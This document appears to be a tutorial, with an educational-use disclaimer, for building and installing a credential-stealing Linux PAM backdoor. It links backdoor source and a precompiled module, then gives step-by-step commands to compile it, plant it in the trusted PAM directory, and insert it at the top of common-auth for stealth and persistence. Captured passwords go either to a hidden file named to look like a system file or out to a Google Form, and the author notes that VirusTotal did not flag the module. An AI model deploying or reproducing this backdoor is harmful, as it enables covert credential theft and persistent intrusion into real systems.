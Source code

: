 #### Disclaimer

_This article is intended for educational and awareness purposes only. The techniques demonstrated are for understanding security risks and improving defenses. Unauthorized use or replication of these methods for malicious activities is strictly prohibited and may be illegal. Always obtain proper authorization before testing or simulating attacks on any systems. The author is not responsible for any misuse, damage, or illegal activities resulting from applying the techniques discussed._

### Background  
PAM modules are dynamically loaded components that handle authentication on Linux systems. Attackers can exploit this by installing malicious modules and modifying PAM’s configuration to load them during login. This allows the attacker to secretly capture user credentials whenever authentication occurs, making it a powerful vector for persistent access and data theft  

#### How the backdoor works?
The malicious code hooks into _pam_sm_authenticate()_, capturing the username via _pam_get_user()_ and the password via _pam_get_authtok()_ before silently logging or exfiltrating them. Meanwhile, _pam_sm_setcred()_ completes the authentication process to avoid detection.

I’ve uploaded code for two Linux PAM modules: one logs credentials to disk (already compiled), and the other exfiltrates to Google Forms (requires updating values before compiling). Download [here](https://github.com/le0li9ht/ThreatHunting/blob/main/Linux/PAM/StealingCredentials/pam_backdoor_lab.zip)  
##### Code files

```
pam_backdoor_lab.zip
│
├── pam_backdoor_disklog/
│   ├── pam_backdoor.c
|   ├── pam_backdoor.so
└── pam_backdoor_googleform/
    ├── pam_backdoor.c
```

For the first, just copy the compiled module to the shared library location.  I have not compiled the second module yet because it requires updating the Google Form URL(as shown in below image) and entry values in the source code. Once those are set, you can compile and deploy the module.    

![image](https://github.com/user-attachments/assets/e5021065-7e31-4744-804d-8bf18cf60bcf)  

At the time of writing, this module was not flagged as malicious by VirusTotal, highlighting how such techniques can easily evade standard detection mechanisms.  
![2025-06-08_01-42](https://github.com/user-attachments/assets/2a19e69b-50cc-4979-a96d-056d352f846b)  
https://www.virustotal.com/gui/file/c7022836a3f92a6589df7cce99ee3db69ce0a98a7c266ba90a8ec5e37227329e?nocache=1   

#### Step 1: Install Development Package for PAM Modules    
You need to install libpam0g-dev because it provides the header files and libraries required to compile custom PAM modules  
```
sudo apt update  
sudo apt install libpam0g-dev  
```  
#### Step 2: Compile the Backdoor PAM Module  
```
gcc -fPIC -fno-stack-protector -c pam_backdoor.c  
ld -x --shared -o pam_backdoor.so pam_backdoor.o
```
#### Step3: Deploy the Backdoor Module into PAM's Trusted Directory  
Copy the backdoor module to /lib/x86_64-linux-gnu/security/ because it’s the default trusted location for PAM modules, ensuring it’s automatically loaded by all PAM-aware services and stays hidden among legitimate system files for better stealth and persistence.   
```
sudo cp pam_backdoor.so /lib/x86_64-linux-gnu/security/
```      
Modify the _common-auth_ file under _/etc/pam.d_ , which handles authentication, by inserting the backdoor module at the top of the PAM authentication stack. This ensures it executes first during all authentication requests, allowing the backdoor to intercept credentials stealthily and persistently across system login processes.  
```
sed -i '1i auth required pam_backdoor.so' /etc/pam.d/common-auth
```   

#### Step4: Test the Backdoor Module 
Perform any authentication action like `sudo`, `su`, `su -`, or SSH logins. The backdoor will capture and log all credentials during these authentications.
```
sudo su
su -
ssh user@ip
```

- **If using the disk-logging module:**  
All captured credentials are saved to a hidden, seemingly legitimate file on disk named /tmp/.X11-unixs. To view the stolen creds, run:   
```
cat /tmp/.X11-unixs
```
![2025-06-08_01-34](https://github.com/user-attachments/assets/63e2bfb4-5833-44b1-bce3-e8afeb6fe1ce)


- **If using the Google Forms exfiltration module:**
Credentials are sent silently to your configured Google Form. Check your Google Form responses to verify captured data as shown.
![2025-06-08_00-54_1](https://github.com/user-attachments/assets/ae275802-ce96-4481-9354-c30fae9c7e56)   
![2025-06-08_00-54](https://github.com/user-attachments/assets/8d773b2c-7369-4e9e-af75-7961f9da1fef)
Exfiltrated credentials on google form.
  

